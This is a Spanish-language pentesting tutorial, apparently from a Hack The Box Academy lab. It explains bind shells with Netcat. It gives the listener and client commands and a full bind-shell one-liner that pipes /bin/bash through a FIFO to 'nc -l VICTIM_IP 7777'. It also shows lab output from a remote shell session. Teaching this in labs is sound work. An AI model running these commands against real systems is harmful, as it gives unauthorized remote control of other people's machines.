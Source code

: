 En muchos casos, trabajaremos para establecer un shell en un sistema en una red local o remota. Esto significa que buscaremos utilizar la aplicación de emulador de terminal en nuestro cuadro de ataque local para controlar el sistema remoto a través de su shell. Esto generalmente se hace usando un `Bind` &/o `Reverse` caparazón.

## ¿Qué es?
En un Bind Shell, el sistema  `objetivo`  tiene un oyente iniciado y espera una conexión desde el sistema de un pentester (caja de ataque).

![Image|700x400](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

Puede haber muchos desafíos asociados con la obtención de un caparazón de esta manera.
- Tendría que haber un oyente ya iniciado en el objetivo.
- Si no hay ningún oyente iniciado, necesitaríamos encontrar una manera de que esto suceda.
- Los administradores normalmente configuran reglas estrictas de firewall entrante y NAT (con implementación de PAT) en el borde de la red (de cara al público), por lo que ya necesitaríamos estar en la red interna.
- Los cortafuegos del sistema operativo (en Windows y Linux) probablemente bloquearán la mayoría de las conexiones entrantes que no estén asociadas con aplicaciones de red confiables.

Los firewalls del sistema operativo pueden ser problemáticos al establecer un shell, ya que debemos considerar las direcciones IP, los puertos y la herramienta en uso para que nuestra conexión funcione correctamente. En el ejemplo anterior, la aplicación utilizada para iniciar el oyente se llama [GNU Netcat](https://en.wikipedia.org/wiki/Netcat) . `Netcat` ( `nc`) es considerado nuestro `Swiss-Army Knife`ya que puede funcionar sobre sockets TCP, UDP y Unix. Es capaz de usar IPv4 e IPv6, abrir y escuchar en sockets, operar como proxy e incluso manejar la entrada y salida de texto. Usaríamos nc en el cuadro de ataque como nuestro `client`, y el objetivo sería el `server`.

## Practicando con GNU Netcat
#### No. 1: Servidor - Objetivo que inicia el oyente Netcat
```js
Target@server:~$ nc -lvnp 7777
```

#### No. 2: Cliente - Kali que se conecta al objetivo
```js
p314d0@htb[/htb]$ nc -nv 10.129.41.200 7777
```

Sepa que este no es un caparazón adecuado. Es solo una sesión TCP de Netcat que hemos establecido. Podemos ver su funcionalidad escribiendo un mensaje simple en el lado del cliente y viéndolo recibido en el lado del servidor.


## Estableciendo un Bind Shell básico con Netcat
Hemos demostrado que podemos usar Netcat para enviar texto entre el cliente y el servidor, pero este no es un shell de enlace porque no podemos interactuar con el sistema operativo y el sistema de archivos. En el lado del servidor, necesitaremos especificar el `directory`, `shell`, `listener`, trabajar con algunos `pipelines`, y `input` & `output` `redirection` para garantizar que se proporcione un shell al sistema cuando el cliente intente conectarse.

#### No. 1: Servidor: vincular un shell Bash a la sesión TCP
```js
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l VICTIM_IP 7777 > /tmp/f
```

#### No. 2: Cliente: Conexión para vincular el shell en el objetivo
```js
nc -nv VICTIM_IP 7777
```

```js
┌──(pelado㉿kali)-[~/HTB/Academy/ShellsPayloads]
└─$ nc -nv 10.129.201.134 7777
(UNKNOWN) [10.129.201.134] 7777 (?) open
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb-student@ubuntu:~$ whoami
whoami
htb-student
htb-student@ubuntu:~$ 
```


